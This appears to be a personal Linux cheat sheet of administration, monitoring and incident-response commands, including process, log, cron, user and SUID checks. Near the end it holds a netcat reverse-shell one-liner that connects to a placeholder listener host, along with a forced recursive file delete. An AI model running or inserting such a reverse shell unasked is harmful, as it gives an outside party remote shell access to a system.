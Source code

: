 ...

## **error:25066067:DSO support routines:dlfcn_load:could not load the shared library**

tmp fix: `export OPENSSL_CONF=/dev/null`

`export TERM=xterm-256color`

"eval `ssh-agent` && ssh-add"


## Load snaps profile

`sudo apparmor_parser -r /var/lib/snapd/apparmor/profiles/*`

## Checks

### System
- `ps -ef`
- `top -p PID`
- `uname -a; env; history`
- `systemctl list-unit-files`
- `tail -f /var/log/messages`
- `find / -mtime -7`
- `find / -type f -mmin -60`
- `nmap -sT -v localhost`
- `find /dir -executable -type f`

### Who
`who; w; last`

### Super users
`grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1 }'`

### SUID / GUID
- `find / -perm -u=s -type f 2>/dev/null`
- `find / -type f -perm -04000 2> /dev/null`
- `find / -type f -perm -02000 2> /dev/null`

### Net status
- `ss -antup; lsof -i`
- `netstat -anp`

### List crons
`crontab -l; ls -la /etc/cron*`

### history

`~/.bash_history`

### Create file

`dd if=/dev/zero of=foobar.txt bs=1M count=<number_of_megabytes>`

### Random string

`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 23 | head -n 1`

### rm

`find ./ -type f -name "*.json" -exec rm -f {} \;`

## Commands
```shell
strace # Display the system calls and signals of a specific program
lsof # List open files (process)
stat # Display file or file system status
modinfo # Show information about a Linux Kernel module
modprobe # Add and remove modules from the Linux Kernel
lsmod # Show the status of modules in the Linux Kernel
dmesg # Print or control the kernel ring buffer (logs)
watch # Execute a program periodically, showing output fullscreen
xxd # Make a hexdump or do the reverse
readelf # Display information about ELF files
objdump # Display information from object files
strings # Display text strings embedded in binary
exiftool # Show/Remove files metadata
```

### md5sum

```sh
find . -type f ! -name checksums.md5 -exec md5sum {} + > checksums.md5
md5sum -c checksums.md5
```

### pod debug
```sh
kubectl run pod-debug --rm -i --tty --image alpine:latest -- /bin/sh
#apk update
#apk add busybox-extras
#apk --update add <package>
```

### Count
```sh
awk '{print $<position>}' <logfile> | sort | uniq -c
```


### -1

`nc -lvp 4444`
```sh
mkfifo /tmp/fifo
sh -i < /tmp/fifo 2>&1 | nc IP_LISTENER 4444 > /tmp/fifo
```

### -2 

SSH SOCKS proxy
```sh
ssh -D 1080 user@serverSSH
```
